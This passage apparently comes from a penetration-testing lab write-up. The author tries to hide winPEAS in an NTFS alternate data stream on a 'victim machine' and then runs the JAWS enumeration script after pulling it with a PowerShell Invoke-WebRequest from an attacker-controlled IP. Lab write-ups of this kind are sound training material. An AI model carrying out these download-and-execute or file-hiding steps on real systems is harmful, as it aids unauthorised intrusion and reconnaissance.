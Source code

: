 I tried *winpeas* and managed to get it onto the victim machine using an [alternate datastream](https://github.com/puzz00/host-and-network/blob/main/system-and-hosts/windows-file-system.md) in a txt file, but I could not then get it to execute!

I did manage to get the [JAWS](https://github.com/411Hall/JAWS) powershell enumeration script to work...

```powershell
Invoke-WebRequest 'http://10.8.46.6/jaws-enum.ps1' -OutFile 'jaws.ps1'
./jaws.ps1
```

![jaws1](/images/13.png)

![jaws2](/images/16.png)
